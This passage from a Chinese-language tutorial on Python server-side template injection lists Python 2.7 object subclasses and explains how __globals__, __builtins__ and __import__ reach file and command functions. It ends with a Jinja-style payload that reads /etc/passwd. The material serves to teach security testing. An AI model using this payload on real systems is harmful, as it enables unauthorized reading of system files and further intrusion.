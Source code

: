 ```python
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```

**注意：**这里要记住一点2.7和3.6版本返回的子类不是一样的，但是2.7有的3.6大部分都有。

当然我们也可以直接用`object.subclasses()`，会得到和上面一样的结果。SSTI 的主要目的就是从这么多的子类中找出可以利用的类（一般是指读写文件或执行命令的类）加以利用。

`__builtins__`：以一个集合的形式查看其引用

`__globals__`：该方法会以字典的形式返回当前位置的所有全局变量，与 func_globals 等价。该属性是函数特有的属性，记录当前文件全局变量的值，如果某个文件调用了os、sys等库，但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全局变量的字典引用。

```
__import__()`：该方法用于动态加载类和函数 。如果一个模块经常变化就可以使用` __import__() `来动态载入，就是` import`。语法：`__import__(模块名)
```

这样我们在进行SSTI注入的时候就可以通过这种方式使用很多的类和方法，通过子类再去获取子类的子类、更多的方法，找出可以利用的类和方法加以利用。总之，是通过python的对象的继承来一步步实现文件读取和命令执行的

找到父类<type 'object'> ---> 寻找子类 ---> 找关于命令执行或者文件操作的模块。

# 利用ssti读文件

## python2

file类可以直接用来读取文件

```python
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}
```

## python3
